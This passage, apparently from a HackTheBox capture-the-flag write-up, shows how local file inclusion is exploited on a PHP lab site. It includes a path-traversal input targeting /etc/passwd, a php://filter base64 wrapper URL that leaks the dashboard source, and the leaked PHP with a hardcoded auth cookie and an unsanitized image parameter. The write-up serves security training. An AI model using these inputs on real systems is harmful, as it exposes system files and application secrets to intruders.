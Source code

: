 ![](/assets/images/htb/friend/hint.png)

From here we can test for LFI with basics such as `../../../../../etc/passwd`. When this doesn't work we can try some evasion techniques like [php filtering](https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb) which is used to further allow access.

For our case, we want to grab the dashboard page, which fails with regular LFI. Instead we need to wrap it in a php filter
```
# Before filter
?image_id=a.jpg&pagename=dashboard

# After filtering
?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=dashboard

# Final LFI
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=dashboard
```
This gives us the base64 for the dashboard code! Cyberchef lets us decode and manipulate the output as needed.

```php
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center><img src='images/$image'></center>";
```